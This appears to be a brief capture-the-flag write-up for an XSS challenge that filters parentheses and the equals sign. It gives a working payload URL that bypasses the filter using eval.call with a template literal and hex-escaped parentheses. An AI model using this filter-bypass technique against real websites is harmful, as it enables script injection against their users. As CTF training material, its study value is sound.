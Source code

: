Description: Can you alert(1) this page (in firefox)?

It was not possible to use [jjencode](http://utf-8.jp/public/jjencode.html), because parenthesis and equal sign was filtered too.

Solution:
```
http://xss2.sect.ctf.rocks/?xss=stuff%22;eval.call`${'alert\x281\x29'}`;//
```

References:

[XSS Challenge Wiki](https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml)
